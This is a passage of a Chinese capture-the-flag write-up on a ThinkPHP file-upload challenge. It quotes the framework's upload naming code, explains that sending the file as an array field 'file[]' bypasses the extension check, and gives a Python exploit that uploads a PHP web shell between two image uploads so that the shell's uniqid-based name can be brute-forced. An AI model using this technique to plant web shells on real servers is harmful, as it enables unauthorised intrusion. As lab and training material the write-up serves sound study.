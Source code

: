 ```php
        /* 文件保存后缀，支持强制更改文件后缀 */
        $ext = empty($this->config['saveExt']) ? $file['ext'] : $this->saveExt;

        return $savename . '.' . $ext;
    }
```

到getName()

```php
    private function getName($rule, $filename)
    {
        $name = '';
        if (is_array($rule)) {
            //数组规则
            $func  = $rule[0];//uniqid
            $param = (array) $rule[1];//null
            foreach ($param as &$value) {
                $value = str_replace('__FILE__', $filename, $value);
            }
            $name = call_user_func_array($func, $param);
        } elseif (is_string($rule)) {
            //字符串规则
            if (function_exists($rule)) {
                $name = call_user_func($rule);
            } else {
                $name = $rule;
            }
        }
        return $name;
    }

```

实际上文件名其实就是`/时间日期/uniquid().ext`

![](/home/cookie/Pictures/blogs/2019roarCTF/18.png)



所以我们我们通过数组绕过上传的文件是成功上传的，就是不知道文件名就是了。所以我们得爆破才行

exp1:

```python
import requests
url = "http://8c985534-ecee-47b6-8dc9-0b7565ec2bb4.node3.buuoj.cn/?m=home&c=index&a=upload"
files = {
    "file":open("/home/cookie/Documents/muma/info.jpg","r")
}

r = requests.post(url,files=files)
print(r.text)

files = {
    "file[]":open("/home/cookie/Documents/muma/shell.php","r")
}

r = requests.post(url,files=files)
print(r.text)

files = {
    "file":open("/home/cookie/Documents/muma/info2.jpg","r")
}

r = requests.post(url,files=files)
print(r.text)
```